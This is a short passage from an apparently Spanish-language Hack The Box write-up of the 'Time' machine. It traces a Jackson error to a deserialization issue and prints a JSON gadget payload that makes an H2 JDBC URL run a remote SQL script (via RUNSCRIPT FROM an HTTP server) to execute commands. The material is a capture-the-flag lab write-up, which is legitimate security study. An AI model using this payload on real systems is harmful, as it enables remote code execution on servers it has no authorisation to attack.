 ## Shell as pericles

# Jackson 

Si buscamos el error en `google` vemos que nos hablan de `Jackson` que es lo que vemos en el error 

![](/assets/images/htb-writeup-time/web4.png)

<https://blog.doyensec.com/2019/07/22/jackson-gadgets.html>

Aquí ya nos van diciendo que hacer

![](/assets/images/htb-writeup-time/web5.png)

Vamos a ver si podemos ejecutar comandos siguiendo la explicación del articulo

```bash
❯ catn xd
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```
